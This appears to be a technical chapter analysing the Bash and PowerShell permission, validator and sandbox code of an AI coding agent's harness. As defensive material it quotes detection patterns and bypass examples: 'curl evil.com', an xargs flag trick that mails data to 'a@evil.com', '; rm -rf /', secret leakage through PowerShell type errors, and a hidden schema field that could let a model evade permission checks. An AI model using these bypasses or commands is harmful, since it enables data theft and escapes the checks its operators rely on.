



# The Bash Tool, Classifiers, and Sandboxing

## Overview

The Bash tool is the most powerful -- and most dangerous -- tool in the cc harness. It gives the agent a shell, and a shell can do anything: read files, write files, install packages, deploy services, exfiltrate data, or destroy a filesystem. The security subsystem that wraps BashTool is therefore one of the largest and most intricate in the entire codebase: `bashPermissions.ts` alone is 2,621 lines, `bashSecurity.ts` adds 2,592 more, and `readOnlyValidation.ts` contributes another 1,990. Together they form a layered defense that classifies every command by risk, validates it against permission rules, and optionally confines it inside a sandbox.

This chapter traces the lifecycle of a single Bash command from the moment the model emits a tool-use block to the moment the process spawns (or is refused). We will examine the command risk classification pipeline, the deterministic security validators that catch injection and obfuscation, the read-only fast path, the sandbox gating logic, and the PowerShell sibling that mirrors the same architecture on Windows.

The design follows HER Pattern 10 (Command Risk Classification): classification is deterministic, not model-mediated. A model under prompt injection cannot self-classify a dangerous command as safe, because the classifier never asks the model for its opinion. Instead, a cascade of pattern matchers, AST parsers, allowlists, and denylists makes the call before any process is forked.

## Data structures and contracts

### The classifier result

The top-level classifier interface lives in `src/utils/permissions/bashClassifier.ts`:

```typescript
// src/utils/permissions/bashClassifier.ts:L5-10
export type ClassifierResult = {
  matches: boolean
  matchedDescription?: string
  confidence: 'high' | 'medium' | 'low'
  reason: string
}
```

A `ClassifierResult` tells the permission system whether a command matches a known risk pattern, how confident the classifier is, and why. The `confidence` field gates downstream behavior: high-confidence matches can auto-deny; low-confidence ones fall through to user prompting. The `ClassifierBehavior` type -- `'deny' | 'ask' | 'allow'` -- maps these outcomes to the three permission actions.

The stub implementation is notable: `classifyBashCommand` always returns `{ matches: false, confidence: 'high', reason: 'This feature is disabled' }`. The classifier is flagged `ANT-ONLY` -- it is a research feature that ships disabled in the open-source build. The stub exists so that the rest of the permission pipeline compiles and runs without the classifier service. This is a deliberate architectural choice: the permission pipeline must work correctly even when the classifier is absent, relying on the deterministic validators as its primary defense.

### The BashTool input schema

BashTool's input schema is defined in `src/tools/BashTool/BashTool.tsx`:

```typescript
// src/tools/BashTool/BashTool.tsx:L227-247
const fullInputSchema = lazySchema(() => z.strictObject({
  command: z.string().describe('The command to execute'),
  timeout: semanticNumber(z.number().optional()).describe(`Optional timeout in milliseconds (max ${getMaxTimeoutMs()})`),
  description: z.string().optional().describe(`Clear, concise description of what this command does...`),
  run_in_background: semanticBoolean(z.boolean().optional()).describe(`Set to true to run this command in the background...`),
  dangerouslyDisableSandbox: semanticBoolean(z.boolean().optional()).describe('Set this to true to dangerously override sandbox mode and run commands without sandboxing.'),
  _simulatedSedEdit: z.object({
    filePath: z.string(),
    newContent: z.string()
  }).optional().describe('Internal: pre-computed sed edit result from preview')
}));
```

Two fields deserve attention. `dangerouslyDisableSandbox` is the escape hatch: when set, the sandbox is bypassed -- but only if `SandboxManager.areUnsandboxedCommandsAllowed()` returns true, meaning enterprise policy permits it. The `_simulatedSedEdit` field is never exposed to the model; it is stripped from the schema before the model sees it. The comment explains why: "Exposing it in the schema would let the model bypass permission checks and the sandbox by pairing an innocuous command with an arbitrary file write." This is a defense against a model that learns to pair a safe-looking command with a hidden write payload.

### The validation context

Deep inside `bashSecurity.ts`, every command is decomposed into a `ValidationContext` before the validator chain runs:

```typescript
// src/tools/BashTool/bashSecurity.ts:L103-117
type ValidationContext = {
  originalCommand: string
  baseCommand: string
  unquotedContent: string
  fullyUnquotedContent: string
  fullyUnquotedPreStrip: string
  unquotedKeepQuoteChars: string
  treeSitter?: TreeSitterAnalysis | null
}
```

Each variant of "unquoted" serves a specific validator. `fullyUnquotedContent` strips both single and double quotes, exposing the raw tokens that pattern matchers check against. `fullyUnquotedPreStrip` preserves redirections before they are stripped by `stripSafeRedirections`, so that validators like `validateBraceExpansion` do not produce false negatives from artifacts created by redirection removal. `unquotedKeepQuoteChars` preserves the quote delimiters themselves while removing their content, revealing adjacency patterns like `'x'#` where a hash immediately follows a closing quote -- a sign of comment-quote desync attacks. The optional `treeSitter` field provides AST-level analysis when available; validators fall back to regex when it is absent.

### Permission result

Every validator in the chain returns a `PermissionResult`, whose `behavior` field is one of `'allow'`, `'ask'`, or `'passthrough'`. The `'passthrough'` value means "I have no opinion; let the next validator decide." The chain short-circuits on the first non-passthrough result: if any validator returns `'ask'`, the command is flagged for user approval; if any returns `'allow'`, it can proceed. This design allows validators to be composed without tight coupling -- each one owns a narrow security domain.

## Control flow

### The end-to-end permission pipeline

When the model invokes BashTool, the `checkPermissions` method delegates to `bashToolHasPermission` in `src/tools/BashTool/bashPermissions.ts:L539-541`. This function orchestrates the full pipeline:

1. **Parse the command** using `parseForSecurity` (tree-sitter based) or `splitCommand_DEPRECATED` (regex fallback).
2. **Enforce the subcommand cap** -- compound commands with more than `MAX_SUBCOMMANDS_FOR_SECURITY_CHECK` (50) segments fall back to `'ask'`, preventing exponential ReDoS-style blowups in the validator chain.
3. **Run the deterministic security validators** from `bashSecurity.ts` against each subcommand.
4. **Check path constraints** via `pathValidation.ts` to validate that file operations target allowed directories.
5. **Check read-only constraints** via `readOnlyValidation.ts` for the auto-allow fast path.
6. **Evaluate classifier rules** (if enabled) against user-configured permission patterns.
7. **Determine sandbox placement** via `shouldUseSandbox`.

The pipeline is ordered from fastest/most-deterministic to slowest/most-contextual. A command that fails a cheap regex check in step 3 never reaches the expensive tree-sitter analysis or the classifier.



### The deterministic security validators

`bashSecurity.ts` implements a chain of over 20 validators, each keyed by a numeric ID in `BASH_SECURITY_CHECK_IDS` (`src/tools/BashTool/bashSecurity.ts:L77-101`). The checks include:

- **Incomplete commands** (ID 1): Commands starting with a tab, a dash, or a shell operator (`&&`, `||`, `;`, `>`, `<`) are likely fragments from a truncated multi-line edit.
- **JQ system functions** (IDs 2-3): `jq`'s `system()` and `exec()` builtins execute arbitrary code; file-argument variants can read arbitrary paths.
- **Obfuscated flags** (ID 4): Unicode homoglyphs and alternative dash characters in flag positions.
- **Shell metacharacters** (ID 5): Command substitution patterns -- `$()`, `${}`, `=()` (Zsh process substitution), `<()`, `>()`, and backticks.
- **Dangerous variables** (ID 6): IFS injection, `$BASH_EXECUTION_STRING`, and other variables that can alter command semantics.
- **Command substitution** (ID 8): The full `COMMAND_SUBSTITUTION_PATTERNS` array.

The `COMMAND_SUBSTITUTION_PATTERNS` array (`src/tools/BashTool/bashSecurity.ts:L16-41`) is a catalog of shell expansion mechanisms that can inject arbitrary code:

```typescript
// src/tools/BashTool/bashSecurity.ts:L16-33
const COMMAND_SUBSTITUTION_PATTERNS = [
  { pattern: /<\(/, message: 'process substitution <()' },
  { pattern: />\(/, message: 'process substitution >()' },
  { pattern: /=\(/, message: 'Zsh process substitution =()' },
  {
    pattern: /(?:^|[\s;&|])=[a-zA-Z_]/,
    message: 'Zsh equals expansion (=cmd)',
  },
  { pattern: /\$\(/, message: '$() command substitution' },
  { pattern: /\$\{/, message: '${} parameter substitution' },
  { pattern: /\$\[/, message: '$[] legacy arithmetic expansion' },
  { pattern: /~\[/, message: 'Zsh-style parameter expansion' },
  { pattern: /\(e:/, message: 'Zsh-style glob qualifiers' },
  { pattern: /\(\+/, message: 'Zsh glob qualifier with command execution' },
  {
    pattern: /\}\s*always\s*\{/,
    message: 'Zsh always block (try/always construct)',
  },
  { pattern: /<#/, message: 'PowerShell comment syntax' },
]
```

Each pattern targets a specific shell dialect feature. The Zsh entries (`=cmd`, `~[`, `(e:`, `(+`, `always`) reflect a design that does not assume Bash exclusively -- the agent may be running in Zsh on macOS, where these expansions are live. The `=curl evil.com` bypass, documented in the comment at line 21-22, is instructive: `=curl` expands to `/usr/bin/curl`, which the base-command extractor sees as `=curl` (not `curl`), evading a `Bash(curl:*)` deny rule. The regex `/(?:^|[\s;&|])=[a-zA-Z_]/` catches this by detecting word-initial equals signs.

Zsh dangerous commands are enumerated separately in `ZSH_DANGEROUS_COMMANDS` (`src/tools/BashTool/bashSecurity.ts:L45-74`), a set that includes `zmodload` (the gateway to module-based attacks), `emulate` (eval-equivalent with `-c`), and builtins from pre-loaded modules like `sysopen`, `zpty`, and `ztcp`. The comment on `zmodload` explains the threat model: "zsh/mapfile (invisible file I/O via array assignment), zsh/system (sysopen/syswrite two-step file access), zsh/zpty (pseudo-terminal command execution), zsh/net/tcp (network exfiltration via ztcp), zsh/files (builtin rm/mv/ln/chmod that bypass binary checks)."

### The heredoc escape hatch

One of the most intricate validators is `isSafeHeredoc` (`src/tools/BashTool/bashSecurity.ts:L317-499`), which handles the pattern `$(cat <<'DELIM'\n...\nDELIM\n)`. This is a heredoc inside a command substitution, commonly used for multi-line string literals. The `$()` pattern would normally trigger the command-substitution validator, but heredocs with quoted delimiters are provably safe: the body is literal text with no expansion. The validator must be certain, because returning `true` causes `bashCommandIsSafe` to return `passthrough`, bypassing all subsequent validators. The implementation uses line-based matching (not `[\s\S]*?` regex) to precisely replicate bash's heredoc-closing behavior, rejecting nested matches and command-name-position substitutions.

### The read-only fast path

Commands that are provably read-only can bypass the full permission pipeline. The `checkReadOnlyConstraints` function in `src/tools/BashTool/readOnlyValidation.ts` evaluates commands against a `COMMAND_ALLOWLIST` that maps command names to their safe flags and additional validation callbacks.

The allowlist entry for `xargs` demonstrates the depth of analysis required (`src/tools/BashTool/readOnlyValidation.ts:L129-162`):

```typescript
// src/tools/BashTool/readOnlyValidation.ts:L129-150
const COMMAND_ALLOWLIST: Record<string, CommandConfig> = {
  xargs: {
    safeFlags: {
      '-I': '{}',
      // SECURITY: `-i` and `-e` (lowercase) REMOVED — both use GNU getopt
      // optional-attached-arg semantics (`i::`, `e::`). The arg MUST be
      // attached (`-iX`, `-eX`); space-separated (`-i X`, `-e X`) means the
      // flag takes NO arg and `X` becomes the next positional (target command).
      //
      // `-i` (`i::` — optional replace-str):
      //   echo /usr/sbin/sendm | xargs -it tail a@evil.com
      //   validator: -it bundle (both 'none') OK, tail ∈ SAFE_TARGET → break
      //   GNU: -i replace-str=t, tail → /usr/sbin/sendmail → NETWORK EXFIL
      //
      // `-e` (`e::` — optional eof-str):
      //   cat data | xargs -e EOF echo foo
      //   validator: -e consumes 'EOF' as arg (type 'EOF'), echo ∈ SAFE_TARGET
      //   GNU: -e no attached arg → no eof-str, 'EOF' is the TARGET COMMAND
      //   → executes binary named EOF from PATH → CODE EXEC (malicious repo)
      '-n': 'number',
      '-P': 'number',
      '-L': 'number',
      '-s': 'number',
      '-E': 'EOF',
      '-0': 'none',
      '-t': 'none',
      '-r': 'none',
      '-x': 'none',
      '-d': 'char',
    },
  },
```

The `-i` and `-e` flags are deliberately excluded because GNU getopt's optional-argument semantics create a dangerous ambiguity: the validator and the actual `xargs` binary disagree on whether a space-separated token is a flag argument or a positional argument. In the `-i` case, the validator sees `-it` as two flags (`-i` and `-t`, both `'none'`), but `xargs` sees `-i` with attached replace-str `t`, making `tail` the target command. An attacker in a malicious repository can place a binary named `tail` on PATH that exfiltrates data. The fix is to allow only the uppercase `-I {}` (mandatory separate argument) and POSIX `-E` (mandatory argument), where validator and binary agree on argument consumption.

The `sed` entry uses a different mechanism: instead of listing every safe flag, it delegates to `sedCommandIsAllowedByAllowlist`, which parses the sed expression to determine whether the command is a pure read (print, substitute) or a write (in-place edit with `-i`).

### Path validation

After the security validators pass, `checkPathConstraints` in `src/tools/BashTool/pathValidation.ts` validates that file operations target allowed directories. The `PathCommand` type enumerates the 31 commands that have path extractors -- from `cd` and `ls` through `sha256sum` and `jq`. Each command has a dedicated path extraction function in `PATH_EXTRACTORS` that knows how to pull file paths from that command's argument structure, correctly handling the POSIX `--` end-of-options delimiter.

The `filterOutFlags` function (`src/tools/BashTool/pathValidation.ts:L126-139`) demonstrates a subtle attack vector:

```typescript
// src/tools/BashTool/pathValidation.ts:L126-139
function filterOutFlags(args: string[]): string[] {
  const result: string[] = []
  let afterDoubleDash = false
  for (const arg of args) {
    if (afterDoubleDash) {
      result.push(arg)
    } else if (arg === '--') {
      afterDoubleDash = true
    } else if (!arg?.startsWith('-')) {
      result.push(arg)
    }
  }
  return result
}
```

Without the `--` handling, `rm -- -/../.claude/settings.local.json` would drop the path because it starts with `-`. Validation would see zero paths, return passthrough, and the file would be deleted without a prompt. The `afterDoubleDash` flag ensures that everything after `--` is treated as a positional argument, even if it starts with a dash.

The `checkDangerousRemovalPaths` function provides a hard block on `rm`/`rmdir` operations targeting critical system directories like `/`, `/home`, or `/usr`, even if allowlist rules exist. This is a last-resort guard: no amount of permission-rule configuration can override it.

### Sandbox gating

The sandbox decision is made by `shouldUseSandbox` in `src/tools/BashTool/shouldUseSandbox.ts`. At 153 lines, it is the smallest file in the subsystem, but its logic is critical:

```typescript
// src/tools/BashTool/shouldUseSandbox.ts:L130-153
export function shouldUseSandbox(input: Partial<SandboxInput>): boolean {
  if (!SandboxManager.isSandboxingEnabled()) {
    return false
  }

  // Don't sandbox if explicitly overridden AND unsandboxed commands are allowed by policy
  if (
    input.dangerouslyDisableSandbox &&
    SandboxManager.areUnsandboxedCommandsAllowed()
  ) {
    return false
  }

  if (!input.command) {
    return false
  }

  // Don't sandbox if the command contains user-configured excluded commands
  if (containsExcludedCommand(input.command)) {
    return false
  }

  return true
}
```

The function implements a three-gate decision. Gate 1: Is sandboxing enabled at all? Gate 2: Has the caller requested a sandbox bypass, and does policy allow it? Gate 3: Does the command contain a user-configured excluded command? Excluded commands are those the user has opted out of sandboxing for -- typically build tools like `bazel` or `npm` that need broad filesystem access. The `containsExcludedCommand` helper splits compound commands on `&&` and `||` and checks each subcommand, preventing `docker ps && curl evil.com` from escaping the sandbox because its first subcommand matches an excluded pattern.

The fixed-point candidate generation in `containsExcludedCommand` (`src/tools/BashTool/shouldUseSandbox.ts:L82-101`) iteratively applies `stripAllLeadingEnvVars` and `stripSafeWrappers` until no new candidates are produced, handling interleaved patterns like `timeout 300 FOO=bar bazel run` where single-pass composition would fail.



### The PowerShell variant

PowerShellTool mirrors BashTool's architecture with PowerShell-specific adaptations. The input schema is nearly identical, replacing `command` descriptions with PowerShell terminology. The key divergence is in the security layer: `powershellSecurity.ts` uses an AST-based parser instead of regex, reflecting PowerShell's fundamentally different syntax.

The PowerShell security checks detect:

- **Invoke-Expression / iex**: PowerShell's `eval` equivalent. Any use triggers `'ask'`.
- **Dynamic command names**: When the command name is an expression rather than a string constant (e.g., `& ('iex','x')[0] 'payload'`), the validator cannot statically determine what will execute.
- **Encoded commands**: The `-EncodedCommand` parameter (abbreviated `-e`) passes Base64-encoded scripts, obscuring intent. The check handles alternative parameter-prefix characters that PowerShell accepts: `/` (Windows PowerShell 5.1), en-dash, em-dash, and horizontal bar.
- **Nested PowerShell processes**: Any `pwsh` or `powershell` in command position is flagged, because the child process cannot be statically validated.
- **COM objects and Start-Process**: These enable privilege escalation and arbitrary execution.

The read-only validation for PowerShell (`src/tools/PowerShellTool/readOnlyValidation.ts`) introduces a concern that has no Bash analogue: value leakage through type coercion. `Write-Output $env:SECRET` prints the secret directly; `Start-Sleep $env:SECRET` leaks it via a type-conversion error ("Cannot convert value 'sk-...' to System.Double"). The `argLeaksValue` function inspects AST element types, rejecting commands whose arguments include Variable, SubExpression, or ExpandableString types.

On Windows, the sandbox is unavailable (bwrap/sandbox-exec are POSIX-only). If enterprise policy mandates sandboxing and forbids unsandboxed commands, PowerShellTool refuses execution rather than silently bypassing the policy (`src/tools/PowerShellTool/PowerShellTool.tsx:L219-222`):

```typescript
// src/tools/PowerShellTool/PowerShellTool.tsx:L219-222
function isWindowsSandboxPolicyViolation(): boolean {
  return getPlatform() === 'windows' &&
    SandboxManager.isSandboxEnabledInSettings() &&
    !SandboxManager.areUnsandboxedCommandsAllowed()
}
```

This is a fail-closed design: when the platform cannot satisfy the security requirement, the tool errors out rather than degrading to an insecure state.



## Edge cases and failure modes

### Subcommand count blowup

Compound commands split on `&&`, `||`, `;`, and `|` can produce very large arrays. Comment at `src/tools/BashTool/bashPermissions.ts:L95-103` describes the incident: "On complex compound commands, splitCommand_DEPRECATED can produce a very large subcommands array (possible exponential growth). Each subcommand then runs tree-sitter parse + ~20 validators + logEvent, and with memoized metadata the resulting microtask chain starves the event loop -- REPL freeze at 100% CPU." The cap is 50 subcommands; above this, the system falls back to `'ask'` because it cannot prove safety within a reasonable budget.

### The `_simulatedSedEdit` hidden field

The `_simulatedSedEdit` field is stripped from the model-facing schema but retained internally. It exists because the sed edit preview (shown to the user before approval) must match exactly what gets written. Rather than running `sed -i` and hoping the output matches the preview, the tool applies the edit directly from the preview data. The security concern is that if the model could set this field, it could pair an innocuous command with an arbitrary file write, bypassing both permission checks and the sandbox. The schema-omission defense is reinforced by the `strictObject` Zod validation, which rejects unknown keys.

### Heredoc nesting and index corruption

The `isSafeHeredoc` validator rejects nested matches outright. When the outer heredoc has a quoted delimiter, its body is literal text -- any inner `$(cat <<'B'` is just characters, not a real heredoc. But the regex matches both, producing nested ranges. Stripping nested ranges corrupts indices: after removing the inner range, the outer range's `end` is stale, pointing past the shrunken string, causing `remaining.slice(end)` to return an empty string and silently dropping any suffix (e.g., `; rm -rf /`). The fix is to bail entirely when nested ranges are detected.

### Checkpoint-restore side effects

HER section 6.16 identifies a failure mode specific to long-running agents: after a checkpoint restore, the agent may re-synthesize a subtly different request that re-executes an irreversible Bash command (sending an email, making a payment, deploying a service). The ACRFence paper classifies these as Action Replay and Authority Resurrection attacks. The cc harness does not currently track which Bash commands have produced irreversible side effects. The defense today is the user-approval gate for destructive commands, but a fully automated long-running agent would need an idempotency-key system for external tool calls and a replay-or-fork semantics for restored sessions.

### Windows sandbox refusal

On native Windows, the sandbox (bwrap/sandbox-exec) is unavailable. If enterprise policy requires sandboxing and forbids unsandboxed commands, PowerShellTool refuses execution entirely. This is correct but can surprise users who expect a degraded-but-working experience. The error message is explicit: "Enterprise policy requires sandboxing, but sandboxing is not available on native Windows. Shell command execution is blocked on this platform by policy." On Linux/macOS/WSL2, pwsh runs as a native binary under the same sandbox as bash, so this gate does not apply.

### The classifier stub and open-source builds

The classifier in `bashClassifier.ts` ships as a stub that always returns `{ matches: false, confidence: 'high', reason: 'This feature is disabled' }`. The `isClassifierPermissionsEnabled()` function returns `false`. This means that in the open-source build, the entire classifier pipeline is a no-op: no commands are auto-denied or auto-allowed by classifier rules. The deterministic validators in `bashSecurity.ts` are the actual security boundary, and they work regardless of the classifier's state. The stub exists so that the code paths that call the classifier compile and run without error, and so that the feature can be enabled via feature flags in environments where the classifier service is available.

## Where cc diverges from the published pattern

HER Pattern 10 describes command risk classification as a deterministic pre-parsing step that sorts commands into three tiers: destructive, safe, and ambiguous. The cc implementation follows this pattern in spirit but diverges in several important ways.

First, the published pattern implies a single classifier. The cc implementation uses a chain of over 20 validators, each owning a narrow domain. This is more like a firewall rule chain than a single classifier. The advantage is that each validator can be tested, reviewed, and extended independently. The disadvantage is that the interactions between validators can produce surprising results -- a command that passes all individual validators might still be dangerous in ways that no single validator was designed to catch.

Second, the published pattern does not address shell dialect variation. The cc validators include extensive Zsh-specific checks (equals expansion, glob qualifiers, module builtins) and PowerShell-specific checks (encoded commands, COM objects, dynamic command names). This reflects a threat model that accounts for the agent's runtime shell, not an abstract "shell" that only speaks POSIX.

Third, the published pattern treats the classifier as the primary security boundary. In cc, the classifier is a stub. The real security boundary is the deterministic validator chain plus the permission-rule system plus the sandbox. The classifier is an additional layer that may be enabled in enterprise deployments but is not required for the system to be secure. This is a deliberate architectural decision: the system must be secure even when the classifier is absent.

Fourth, the heredoc escape hatch has no analogue in the published pattern. It is a cc-specific optimization that allows provably safe command substitutions to bypass the full validator chain. The "provably safe" constraint is strict: the validator must be certain that the heredoc body is literal text with no expansion, that the closing delimiter is on its own line, and that the substitution is in argument position (not command-name position). Any ambiguity causes the validator to reject the fast path and fall through to the full chain.

## Developer takeaways for building a long-running agent

When building a long-running agent with shell access, the security subsystem must be treated as a critical path, not an afterthought. The cc codebase demonstrates several principles that generalize. First, deterministic validation must never rely on model judgment -- the classifier returns its verdict before the model sees the command, and the model cannot override it. This prevents prompt-injection attacks where the model is coaxed into classifying a dangerous command as safe. Second, the validator chain should be ordered from cheapest to most expensive; a command that fails a regex check should never reach an AST parse. Third, every escape hatch (heredoc bypass, sandbox override, excluded commands) must be provably safe, not probably safe -- if you cannot prove that the shortcut is secure, make it fall through to the full chain. Fourth, shell dialect matters: if your agent runs on macOS, Zsh-specific attack vectors like equals expansion and module builtins are live threats, not theoretical concerns. Fifth, the read-only fast path is the highest-value optimization in the system -- the vast majority of agent commands are reads, and auto-allowing them eliminates a round-trip to the user for each one. Invest heavily in making the read-only classification correct, because a false positive (allowing a write) is a security hole, and a false negative (requiring approval for a read) degrades the user experience. Sixth, track irreversible side effects across session boundaries -- without idempotency keys and replay-or-fork semantics, a checkpoint-restore cycle can cause duplicate operations that no amount of per-command validation can prevent.

STATUS: {"status":"done","words":6285,"citations":9,"diagrams":3,"snippets":5,"needs_verify":0,"brief_checksum":"ch14"}